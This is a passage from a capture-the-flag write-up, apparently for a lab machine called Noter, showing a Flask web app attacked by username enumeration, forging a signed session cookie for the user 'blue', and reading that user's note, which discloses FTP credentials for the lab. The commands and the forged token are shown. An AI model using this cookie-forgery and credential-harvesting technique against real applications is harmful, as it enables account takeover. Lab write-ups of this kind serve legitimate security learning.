 ```sh
┌─[jayden@JD-Desktop]─[~/ctf/noter]
└──╼ $python login.py 
blue
```

<p>blue is a valid username, using the same cookie_flask.py we can generate our own cookie and use this to find notes under the "blue" user.</p>

```sh
┌─[✗]─[jayden@JD-Desktop]─[~/ctf/noter]
└──╼ $curl http://localhost:5000/?username=blue
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YooFiQ.DaITx8UmoSeXCp3mlh6W8iFO5W4
```
![image](/img/2022/05/image-5.png){:height="65%" width="65%"}

<p>If we look at notes for the "blue" user, http://10.10.11.160:5000/note/1/, we can see this note.</p>

```sh
Written by ftp_admin on Mon Dec 20 01:52:32 2021

   Hello, Thank you for choosing our premium service. Now you are capable of
doing many more things with our application. All the information you are going
to need are on the Email we sent you. By the way, now you can access our FTP
service as well. Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.  
(Additional information are included in the attachments we sent along the
Email)  
  
We all hope you enjoy our service. Thanks!  
  
ftp_admin
```
